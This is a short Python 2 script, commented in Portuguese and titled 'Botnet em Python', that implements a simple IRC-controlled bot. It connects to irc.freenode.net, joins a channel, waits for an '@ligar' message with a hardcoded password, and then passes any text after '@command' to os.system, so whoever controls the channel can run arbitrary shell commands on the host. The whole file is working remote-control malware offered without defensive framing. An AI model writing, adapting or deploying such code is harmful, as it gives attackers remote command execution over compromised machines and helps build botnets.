 #!/usr/bin/env python
# -*- coding: utf-8 -*-
#############################################
# Botnet em Python
# por: @RedMonkey
#############################################
import socket, os, time
from re import search

#Configuração do servidor IRC
server = 'irc.freenode.net'
porta = 6667
canal = '#testeprogramaboot'
nick = 'controle'
password = 'senha1234'

# Cria o servidor socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((server, porta))
s.send('NICK %s\r\n' %nick)
s.send('USER ' + nick + ' ' + nick + ' ' + nick + ' .:\n')
s.send('Join %s\r\n' %canal)
time.sleep(2)
print (s.recv(1024))

#Verifica o que é digitado no canal
# Se for digitado "@ligar + senha", o status da variável teste passa para True
# Se não o status da variável permanece False.
teste = False
while teste != True:
    msg = s.recv(5000)
    print (msg)
    if msg[0:4] == 'PING':
        s.send(msg.replace('PING', 'PONG'))
    if search('@ligar %s' %password, msg):
        teste = True
        s.send('PRIVMSG %s : Conectado com sucesso!\r\n' %canal)

# Verifica o que é digitado no canal
# Se for digitado "@command + comando", o programa executa o comando informado no
# servidor que está rodando o botnet
# EXEMPLO: @command clear
# EXPLICAÇÃO: Será executado o comando clear que limpará a tela.
while True:
    msg = s.recv(5000)
    print (msg)
    if msg[0:4] == 'PING':
        s.send(msg.replace('PING', 'PONG'))
    if search('@command', msg):
        msg = msg.split('@command')
        msg = msg[1].split('\r\n')
        os.system(msg[0])
        s.send('PRIVMSG %s : Comando [ %s ] executado com sucesso!\r\n' %(canal, str(msg[0])))
